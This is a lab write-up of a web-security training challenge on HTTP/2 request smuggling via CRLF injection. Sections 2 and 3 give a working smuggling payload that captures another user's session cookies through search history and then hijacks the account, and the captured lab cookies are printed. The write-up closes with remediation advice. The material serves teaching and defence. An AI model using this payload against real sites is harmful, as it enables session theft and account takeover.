## Challenge Overview
* **Challenge name**: HTTP/2 request smuggling via CRLF injection
* **Category**: HTTP Request Smuggling
* **Level**: Practitioner
* **Objective**: Use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

---

## 1. Fundamental Concepts

HTTP/2 request smuggling via CRLF injection represents an advanced, HTTP/2-exclusive exploitation primitive. It arises when edge reverse proxies accept binary HTTP/2 frames containing unescaped newline characters in header values and translate them into cleartext HTTP/1.1 streams for backend application servers. This transport-layer protocol downgrading allows attackers to inject arbitrary headers, such as `Transfer-Encoding: chunked`, bypassing front-end validation and hijacking downstream request pipelines to capture third-party session tokens.

### 1.1. Binary Framing vs. Text-Based HTTP/1.1 Parsing
* **HTTP/1.1 Delimiter Architecture:** Under HTTP/1.1 (RFC 7230), headers are represented as plain ASCII strings separated by Carriage Return Line Feed (CRLF: `\r\n`) sequences. The presence of a CRLF sequence terminates the current header line and signals the start of the next header.
* **HTTP/2 Binary Encoding:** Under HTTP/2 (RFC 7540 / RFC 9113), headers are transmitted within binary HEADERS frames as length-prefixed key-value pairs (compressed via HPACK). The protocol does not use CRLF delimiters to delineate fields; instead, field boundaries are strictly defined by binary length integers. Consequently, an HTTP/2 parser does not interpret raw `\r\n` bytes (0x0D 0x0A) as message delimiters, but treats them as literal characters within the header value.
* **Specification Violation:** Although RFC 7540 Section 8.1.2 explicitly prohibits Carriage Return (0x0D) and Line Feed (0x0A) characters in HTTP/2 header field values, vulnerable front-end proxies fail to enforce this validation at ingress.

### 1.2. The CRLF Injection Downgrading Mechanism
* **Protocol Translation Gap:** When a front-end proxy translates ("downgrades") an inbound HTTP/2 frame into an HTTP/1.1 stream for an upstream server, it converts the binary header pairs into plain ASCII text: `Header-Name: Header-Value\r\n`.
* **Header Synthesis:** If an attacker injects a CRLF sequence into an HTTP/2 header value (e.g., `for: bar\r\nTransfer-Encoding: chunked`), the front-end treats it as a single header named `for`. When written out to the HTTP/1.1 text socket, the literal CRLF splits the line into two separate headers: `for: bar` and `Transfer-Encoding: chunked`.
* **Desynchronization Bypassing Filters:** The backend HTTP/1.1 parser encounters the newly synthesized `Transfer-Encoding: chunked` header. This induces an H2.TE desynchronization condition, even on systems that strictly strip or filter direct `Transfer-Encoding` headers at the edge.

### 1.3. Request Capture via Persistent Search Parameter Reflection
* **Search History Gadget:** When an application records search queries in a user session history ("Recent searches"), submitting `search=value` stores the string in the user's session state and renders it in the web interface.
* **Parameter Absorption Primitive:** By smuggling an incomplete `POST /` search request that includes the attacker's own session cookie and specifies an oversized `Content-Length` (e.g., 900 bytes), the attacker leaves the body parameter `search=x` open in the backend TCP stream.
* **Credential Exfiltration:** When a victim browses the application over the multiplexed TCP socket, the victim's request line and headers (including session cookies) are appended to `search=x` and stored in the attacker's search history. The attacker simply refreshes their search history to harvest the victim's credentials.

> [!IMPORTANT]
> **CRITICAL ARCHITECTURAL INSIGHT:** CRLF injection in HTTP/2 weaponizes binary-to-text protocol downgrading. By embedding CRLF characters inside a harmless header value, attackers bypass front-end header filtering to synthesize `Transfer-Encoding: chunked` at the backend, converting a blocked smuggling vector into a critical credential theft attack.

---

## 2. Attack Model & Architecture

The attack model illustrates how an attacker injects CRLF characters into an HTTP/2 header value to synthesize `Transfer-Encoding: chunked` during downgrade. The backend parses the chunked stream, executes the outer request, and preserves the smuggled search request in the socket buffer. When a victim loads the site, their HTTP request is absorbed into the search parameter, storing their session cookie inside the attacker's account.

```text
[Attacker]
    │
    │ (1) Sends Malicious HTTP/2 Request
    │     - Injected Header: for: bar\r\nTransfer-Encoding: chunked
    │     - Body:
    │         0\r\n\r\n
    │         POST / HTTP/1.1
    │         Host: target.net
    │         Cookie: session=ATTACKER_SESSION
    │         Content-Length: 900
    │         \r\n\r\n
    │         search=x
    ▼
[Front-end Proxy] (Evaluates HTTP/2 Binary Frames)
    │ Reads 'for' as a single header containing binary 0x0D 0x0A
    │ Translates request into HTTP/1.1 text stream for backend:
    │   for: bar\r\n
    │   Transfer-Encoding: chunked\r\n
    ▼
[Back-end Application Server] (Parses Cleartext HTTP/1.1)
    │ - Interprets 'Transfer-Encoding: chunked' synthesized by CRLF injection
    │ - Reads terminating chunk '0\r\n\r\n' -> Finishes outer request (Returns 200 OK)
    │ - Smuggled request remains pending in TCP receive buffer:
    │     POST / HTTP/1.1\r\nHost: target.net\r\nCookie: session=ATTACKER...\r\nContent-Length: 900\r\n\r\nsearch=x
    ▼
[Victim User Browses Application]
    │ (2) Victim dispatches request over shared connection (every 15s):
    │     GET / HTTP/1.1
    │     Host: target.net
    │     Cookie: session=VICTIM_SESSION_TOKEN; ...
    ▼
[Back-end Concatenates Stream]
    │ Victim's entire request line and headers are absorbed into 'search=x' (up to 900 bytes):
    │   search=xGET / HTTP/1.1\r\nHost: target.net\r\nCookie: session=VICTIM_SESSION_TOKEN...
    │ Back-end executes search request UNDER ATTACKER'S SESSION COOKIE!
    │ Stores absorbed victim request text in Attacker's 'Recent searches' list
    ▼
[Attacker Refreshes Application]
    │ (3) Attacker refreshes home page with ATTACKER_SESSION
    │ - Views 'Recent searches' list -> Extracts VICTIM_SESSION_TOKEN!
    │ (4) Attacker sends GET / with VICTIM_SESSION_TOKEN -> Account Hijacked!
```

### 2.1. Attack Lifecycle & Data Flow Breakdown
1. **Phase 1 - Gadget Discovery:** The attacker captures a search request, verifies that recent searches are persisted in the user session, and extracts their own session cookie.
2. **Phase 2 - Desynchronization Verification:** Using Burp Inspector, the attacker injects `\r\n` into a custom header value followed by `Transfer-Encoding: chunked`. A probe body (`0\r\n\r\nSMUGGLED`) confirms H2.TE desynchronization via a 404 response on the subsequent request.
3. **Phase 3 - Payload Weaponization:** The attacker crafts a smuggled `POST /` search request with their own session cookie, setting `Content-Length: 900` and leaving `search=x` open without trailing newlines.
4. **Phase 4 - Victim Request Absorption:** When the victim accesses the site, the backend reads the victim's request as the body of the attacker's search query, persisting the victim's session headers in the attacker's search history.
5. **Phase 5 - Credential Exfiltration & Account Takeover:** The attacker refreshes the home page, retrieves the victim's session token from the rendered search history, and issues an authenticated request to compromise the victim account.

### 2.2. Deep-Dive Analysis: Request Absorption Mechanics & Method Segregation

A critical architectural nuance of this attack concerns the distinct roles of HTTP methods across the attack lifecycle:

* **Ingress Validation & Outer Method Enforcement (`POST` vs. `GET`):**
  * Dispatching the smuggling exploit using an outer `GET / HTTP/2` request results in an immediate rejection by the edge proxy: `HTTP/2 403 Forbidden: "GET requests cannot contain a body"`.
  * Under HTTP semantics (RFC 7231 / RFC 9110), `GET` requests carry no defined payload semantics. Modern edge reverse proxies enforce strict ingress policies: when an incoming `GET` request includes an HTTP/2 `DATA` frame containing body content, the proxy aborts processing immediately.
  * Changing the outer request to `POST / HTTP/2` satisfies ingress validation rules, permitting the proxy to forward the body (`DATA` frame), execute protocol downgrading, and inject the synthesized `Transfer-Encoding: chunked` header into the backend pipeline.

* **The Attacker `POST` vs. Victim `GET` Concatenation Dynamics:**
  * **Attacker's Parameter Trap (`POST`):** The attacker smuggles an incomplete `POST / HTTP/1.1` search submission specifying `Content-Length: 900` with body `search=x`. The backend reads the initial 8 bytes (`search=x`) and pauses, holding the socket open while awaiting the remaining ~892 bytes.
  * **Victim's Natural Navigation (`GET`):** The victim user or automated administrative bot regularly visits the homepage. Standard browser navigation naturally issues a `GET / HTTP/1.1` request carrying authentication cookies:
    ```http
    GET / HTTP/1.1
    Host: target.net
    Cookie: session=VICTIM_SESSION_TOKEN; ...
    ```
  * **Parameter Absorption:** Because the backend is still reading the body of the attacker's `search` parameter, it absorbs the victim's request line and headers as raw string data:
    ```text
    search = x + GET / HTTP/1.1\r\nHost: target.net\r\nCookie: session=VICTIM_SESSION_TOKEN...
    ```
  * Consequently, the search query stored in **Recent searches** begins with `xGET / HTTP/1.1`. The `POST` method belongs to the attacker's search submission gadget, while the `GET` method belongs to the victim whose request was swallowed into the parameter.

### 2.3. Root Causes
* **Ingress Sanitization Failure:** The edge proxy does not reject HTTP/2 requests with CRLF characters (0x0D 0x0A) in header values as mandated by RFC 7540 Section 8.1.2.
* **Unsafe Protocol Downgrading:** The proxy performs unsafe binary-to-text translation without validating that the serialized HTTP/1.1 stream preserves the original semantic structure.
* **TCP Connection Multiplexing:** Persistent TCP connections between the proxy and backend servers are shared across unrelated client sessions without security context isolation.

---

## 3. Vulnerability Exploitation

The vulnerability was systematically verified, refined, and exploited using Burp Suite Repeater through a 13-step empirical process.

### 3.1. Identifying the Search Reflection Gadget
The target application was inspected in the browser. Submitting search queries (`123`, `1234`) revealed that the application saves and displays search queries under **Recent searches**:



The search request was analyzed in Burp Suite Repeater (`GET /?search=1234 HTTP/2`), establishing that communication with the edge proxy is conducted via HTTP/2 and identifying the attacker's baseline session cookie:



The request was converted to `POST / HTTP/2` with body `search=1234` and `Content-Type: application/x-www-form-urlencoded`. The server returned `HTTP/2 200 OK`, confirming that search submissions function identically over POST:



### 3.2. Injecting CRLF Sequences via Burp Inspector
To inject a newline into an HTTP/2 header value, the Inspector panel was used. A custom header named `for` was added. In the Value field, the sequence was entered by pressing **Shift + Return**:

```http
bar\r\n
Transfer-Encoding: chunked
```

Burp Suite rendered the injected Carriage Return and Line Feed as visual `\r` and `\n` tokens in the dialog:



The full list of HTTP/2 headers in the Inspector confirmed that the header `for` contained the multi-line CRLF sequence:



### 3.3. Probing for H2.TE Desynchronization
With the CRLF-injected header applied, Burp Repeater flagged the request as **kettled** because it contained headers that cannot be represented in standard HTTP/1.1 syntax. A probe body was supplied with chunk `0` followed by `SMUGGLED`:

```http
0\r\n
\r\n
SMUGGLED
```

The initial request was transmitted, returning `HTTP/2 200 OK`:



An immediate follow-up request was dispatched over the connection. The backend concatenated `SMUGGLING` to the incoming request line (`SMUGGLINGPOST / HTTP/1.1`), returning `HTTP/2 404 Not Found` (`"Not Found"`):



### 3.4. Weaponizing the Request Smuggling Payload
A weaponized smuggling payload was constructed. The body smuggled a `POST /` search query carrying the attacker's session cookie (`session=IA0rEnvlEpOKDqRG21ykTslZSGPJxQht`), specifying `Content-Length: 800` and leaving `search=x` open without trailing newlines:

```http
0\r\n
\r\n
POST / HTTP/1.1\r\n
Host: 0a31006104c5f42c84e909b5008200bb.web-security-academy.net\r\n
Cookie: session=IA0rEnvlEpOKDqRG21ykTslZSGPJxQht\r\n
Content-Length: 800\r\n
\r\n
search=x
```

The payload was transmitted to prime the backend socket buffer, returning `HTTP/2 200 OK`:



### 3.5. Observing Victim Capture & Troubleshooting Token Truncation
After waiting 15 seconds for the victim bot to access the site, the blog homepage was refreshed using the attacker's session. The Recent Searches list reflected the victim's request, but the session token was truncated at 800 bytes:

```http
cookie: victim-fingerprint=mAhyl7V1RGjun2sCJYubbeufw5i1vcN1; secret=4FEAxV3PKfBAZiWG5gbcpyrfnd8jpdGE; session=ljr3mm
```



To capture the complete token, the payload's `Content-Length` was increased from 800 to **900** bytes in Burp Repeater, and the socket was re-primed:



After the victim's subsequent visit, refreshing the homepage revealed the complete, un-truncated victim cookie string:

```http
cookie: victim-fingerprint=mAhyl7V1RGjun2sCJYubbeufw5i1vcN1; secret=4FEAxV3PKfBAZiWG5gbcpyrfnd8jpdGE; session=ljr3mmWlq0YnGKUCt3fWB4XTYZaeNljk; _lab_analytics=aiYnja0pX10PUjb3FjqrmiYwo7M8igKRI8ycFtVgvuzwxMInQ6aW7XGCq
```

The extracted victim session token was: `session=ljr3mmWlq0YnGKUCt3fWB4XTYZaeNljk`:



### 3.6. Session Hijacking & Laboratory Verification
In Burp Repeater, a request was dispatched to `GET / HTTP/2` supplying the stolen victim session cookie:

```http
GET / HTTP/2
Host: 0a31006104c5f42c84e909b5008200bb.web-security-academy.net
Cookie: victim-fingerprint=mAhyl7V1RGjun2sCJYubbeufw5i1vcN1; secret=4FEAxV3PKfBAZiWG5gbcpyrfnd8jpdGE; session=ljr3mmWlq0YnGKUCt3fWB4XTYZaeNljk; ...
```

The server processed the request under the victim's authenticated identity, returning `HTTP/2 200 OK`:



The confirmation banner was verified, marking the laboratory as successfully solved:


---

## 4. Remediation & Prevention

Remediating HTTP/2 request smuggling via CRLF injection requires defensive controls across protocol translation engines, header sanitization routines, and session architecture.

### 4.1. Strict Ingress HTTP/2 Validation (RFC 7540 / RFC 9113)
* **Reject Injected Newlines:** Edge reverse proxies must strictly enforce RFC 7540 Section 8.1.2. Any incoming HTTP/2 request containing Carriage Return (0x0D), Line Feed (0x0A), or NUL (0x00) characters in header names or header values must be treated as malformed and rejected immediately with an HTTP 400 Bad Request.
* **Character Set Enforcement:** Proxies should validate all header field values against regular expressions permitting only printable ASCII characters (0x20 through 0x7E) before queuing frames for internal routing.

### 4.2. End-to-End HTTP/2 Architecture
* **Eliminate Protocol Downgrading:** Maintain native HTTP/2 or HTTP/3 framing from edge proxies all the way to backend application servers. Eliminating protocol downgrading removes text-based delimiter parsing, rendering CRLF injection attacks completely non-viable.
* **Safe Header Serialization:** If downgrading is mandatory, the proxy translation engine must sanitize and escape all multi-line strings, ensuring each HTTP/2 header maps strictly to exactly one HTTP/1.1 header line.

### 4.3. Upstream TCP Connection Pool Isolation
* **Connection Pool Partitioning:** Never multiplex requests from different client IP addresses, TLS sessions, or user identities over the same persistent TCP socket to backend servers. Establishing isolated connection pools per client prevents smuggled data from contaminating third-party transactions.
* **Socket Teardown on Error:** Proxies must immediately terminate persistent backend TCP connections upon encountering any framing error, syntax violation, or unconsumed trailing bytes.

### 4.4. Defense-in-Depth Session Token Protection
* **Session Binding:** Cryptographically bind session tokens to client TLS parameters, device fingerprints, or strict IP ranges. If an attacker captures a session cookie via request smuggling, transport-layer discrepancies will prevent unauthorized session reuse.
* **Input Sanitization & Truncation:** Set strict input length limits on form parameters and restrict sensitive headers from being reflected in stored application logs or search histories.
